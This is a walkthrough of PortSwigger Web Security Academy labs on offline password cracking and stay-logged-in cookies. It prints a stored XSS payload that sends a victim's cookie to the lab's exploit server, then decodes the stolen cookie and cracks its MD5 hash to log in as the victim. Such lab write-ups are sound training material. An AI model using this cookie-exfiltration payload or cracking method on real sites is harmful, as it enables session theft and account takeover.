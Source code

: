 now we will search for other bugs to get the cookies off 
> carlos 

to solve the lab go home see the posts, there is input fields let’s check if there is XSS.

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Authentication/Offline%20password%20cracking-1.png)

there is no filter for 
<>

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Authentication/Offline%20password%20cracking-2.png)

let’s try to steal cookies
we will get the cookies on our server on 
>exploit-ac971fe81f9e2a6880735ff0010d0025.web-security-academy.net

inject this in the payload 

> <script>document.location='exploit-ac971fe81f9e2a6880735ff0010d0025.web-security-
> academy.net/exploit'+document.cookie</script>


Go to access log see this log 
Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Authentication/Offline%20password%20cracking-3.png)


These are the cookies 
 > Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
 
username:md5Password then base64-encode
decode base64 
carlos:26323c16d5f4dabff3bb136f2460a943
 name is 
> carlos

go to https://www.md5online.org/md5-decrypt.html
> onceuponatime equal 26323c16d5f4dabff3bb136f2460a943

now we have a username and password 
login with this credential
and delete the account 
Lab solved 

------------

# Lab: Brute-forcing a stay-logged-in cookie

In this lab, we will guess the mechanism of generation of the cookies then brute force the cookies for 
> carlose

Ok let’s try to solve the lab 
open burp suite login with 
> wiener:peter 
